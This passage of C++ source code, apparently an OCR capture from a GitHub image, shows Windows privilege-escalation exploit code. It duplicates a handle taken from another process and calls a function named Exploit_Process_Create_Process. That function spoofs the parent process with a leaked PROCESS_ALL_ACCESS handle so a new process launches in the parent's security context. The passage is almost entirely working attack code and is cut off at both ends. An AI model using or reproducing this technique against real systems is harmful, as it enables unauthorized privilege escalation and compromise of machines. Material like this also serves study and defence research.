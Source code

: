 ```c++
	// We're going to duplicate the handle so we need first the process handle.
	if (!(hProcess = OpenProcess(PROCESS_DUP_HANDLE, FALSE, handleInfo.UniqueProcessId)))
	{
		return NULL;
	}

	// Duplicate the handle so we can query it.
	if (!NT_SUCCESS(NtDuplicateObject(
		hProcess,
		(HANDLE)handleInfo.HandleValue,
		GetCurrentProcess(),
		&duplicateProcessHandle,
		0,
		0,
		DUPLICATE_SAME_ACCESS
	)))
	{
		CloseHandle(hProcess);
		return NULL;
	}

	CloseHandle(hProcess);
	return duplicateProcessHandle;
}


/* 
 * This function will spoof the parent process with PROCESS_ALL_ACCESS permission 
 * and start a new process in the security context of the parent process. 
 */

BOOL Exploit_Process_Create_Process(HANDLE parentProcessHandle, LPTSTR lpCommandLine)
{
	STARTUPINFOEX si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEX));


	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEX);

	if (!CreateProcess(
		NULL, 
		lpCommandLine, 
		NULL, 
		NULL, 
		FALSE,
		EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
		NULL, 
		NULL, 
		&si.StartupInfo, 
		&pi)
	)
	{
		printf("[-] CreateProcess() Failed (%d).\n", GetLastError());
		return FALSE;
	}
```